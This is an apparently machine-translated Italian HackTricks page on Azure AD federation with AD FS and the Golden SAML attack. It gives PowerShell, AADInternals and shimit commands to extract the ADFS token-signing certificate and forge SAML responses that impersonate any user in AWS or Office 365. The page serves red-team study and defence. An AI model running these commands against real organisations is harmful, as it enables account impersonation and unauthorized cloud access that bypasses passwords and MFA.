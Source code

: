 # Federazione

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT**](https://opensea.io/collection/the-peass-family) esclusivi
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Informazioni di base

[Dalla documentazione:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-fed)**La federazione** è una collezione di **domini** che hanno stabilito **fiducia**. Il livello di fiducia può variare, ma di solito include **autenticazione** e quasi sempre include **autorizzazione**. Una federazione tipica potrebbe includere un **numero di organizzazioni** che hanno stabilito **fiducia** per **accesso condiviso** a un insieme di risorse.

È possibile **federare il proprio ambiente on-premises** con Azure AD e utilizzare questa federazione per l'autenticazione e l'autorizzazione. Questo metodo di accesso garantisce che tutte le **autenticazioni degli utenti avvengano on-premises**. Questo metodo consente agli amministratori di implementare livelli di controllo degli accessi più rigorosi. La federazione con **AD FS** e PingFederate è disponibile.

<figure><img src="../../../../.gitbook/assets/image (83) (1).png" alt=""><figcaption></figcaption></figure>

In sostanza, nella federazione, tutte le **autenticazioni** avvengono nell'ambiente **on-prem** e l'utente sperimenta il SSO in tutti gli ambienti di fiducia. Pertanto, gli utenti possono **accedere** alle **applicazioni cloud** utilizzando le loro **credenziali on-prem**.

Viene utilizzato il **Security Assertion Markup Language (SAML)** per **scambiare** tutte le informazioni di autenticazione e autorizzazione tra i provider.

In ogni configurazione di federazione ci sono tre parti:

* Utente o Cliente
* Identity Provider (IdP)
* Service Provider (SP)

(Immagini da https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<figure><img src="../../../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

1. Inizialmente, un'applicazione (Service Provider o SP, come la console AWS o il client web vSphere) viene accessa da un utente. Questo passaggio potrebbe essere bypassato, portando il client direttamente all'IdP (Identity Provider) in base all'implementazione specifica.
2. Successivamente, l'SP identifica l'IdP appropriato (ad esempio, AD FS, Okta) per l'autenticazione dell'utente. Quindi crea una richiesta di autenticazione SAML (Security Assertion Markup Language) e reindirizza il client all'IdP scelto.
3. L'IdP prende il controllo, autenticando l'utente. Dopo l'autenticazione, viene formulata una risposta SAML dall'IdP e inoltrata all'SP attraverso l'utente.
4. Infine, l'SP valuta la risposta SAML. Se viene convalidata con successo, implicando una relazione di fiducia con l'IdP, all'utente viene concesso l'accesso. Questo segna il completamento del processo di accesso, consentendo all'utente di utilizzare il servizio.

**Se vuoi saperne di più sull'autenticazione SAML e sugli attacchi comuni, vai su:**

{% embed url="https://book.hacktricks.xyz/pentesting-web/saml-attacks" %}

## Pivoting

* AD FS è un modello di identità basato su claim.
* "..i claim sono semplicemente dichiarazioni (ad esempio, nome, identità, gruppo) fatte sugli utenti, che vengono utilizzate principalmente per autorizzare l'accesso alle applicazioni basate su claim situate ovunque su Internet."
* I claim per un utente sono scritti all'interno dei token SAML e vengono quindi firmati per garantire la riservatezza da parte dell'IdP.
* Un utente è identificato da ImmutableID. È univoco a livello globale e memorizzato in Azure AD.
* L'ImmutableID è memorizzato on-premises come ConsistencyGuid per l'utente e/o può essere derivato dall'GUID dell'utente.
* Ulteriori informazioni su [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims)

**Attacco Golden SAML:**

* In ADFS, la risposta SAML è firmata da un certificato di firma del token.
* Se il certificato viene compromesso, è possibile autenticarsi su Azure AD come QUALSIASI utente sincronizzato su Azure AD!
* Proprio come il nostro abuso di PTA, la modifica della password per un utente o l'MFA non avranno alcun effetto perché stiamo falsificando la risposta di autenticazione.
* Il certificato può essere estratto dal server AD FS con privilegi DA e quindi può essere utilizzato da qualsiasi macchina connessa a Internet.
* Ulteriori informazioni su [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

### Golden SAML

Il processo in cui un **Identity Provider (IdP)** produce una **SAMLResponse** per autorizzare l'accesso dell'utente è fondamentale. A seconda dell'implementazione specifica dell'IdP, la **risposta** potrebbe essere **firmata** o **crittografata** utilizzando la **chiave privata dell'IdP**. Questa procedura consente al **Service Provider (SP)** di confermare l'autenticità della SAMLResponse, garantendo che sia stata effettivamente emessa da un IdP fidato.

Si può fare un parallelo con l'attacco [golden ticket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket), in cui la chiave che autentica l'identità e i permessi dell'utente (KRBTGT per i golden ticket, chiave privata di firma del token per i golden SAML) può essere manipolata per **falsificare un oggetto di autenticazione** (TGT o SAMLResponse). Ciò consente l'impersonificazione di qualsiasi utente, concedendo l'accesso non autorizzato all'SP.

I golden SAML offrono alcuni vantaggi:

* Possono essere **creati in remoto**, senza la necessità di far parte del dominio o della federazione in questione.
* Rimangono efficaci anche con l'abilitazione dell'**autenticazione a due fattori (2FA)**.
* La **chiave privata di firma del token non si rinnova automaticamente**.
* **La modifica della password di un utente non invalida** una SAML già generata.

#### AWS + AD FS + Golden SAML

[Active Directory
```powershell
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```
Con tutte le informazioni, è possibile dimenticare un SAMLResponse valido come l'utente che si desidera impersonare utilizzando [**shimit**](https://github.com/cyberark/shimit)**:**

{% code overflow="wrap" %}
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

### On-prem -> cloud

### Da on-prem a cloud
```powershell
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```
È anche possibile creare l'ImmutableID degli utenti solo cloud e impersonarli.
```powershell
# Create a realistic ImmutableID and set it for a cloud only user
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```
## Riferimenti

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
* [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT**](https://opensea.io/collection/the-peass-family) esclusivi
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository di** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>

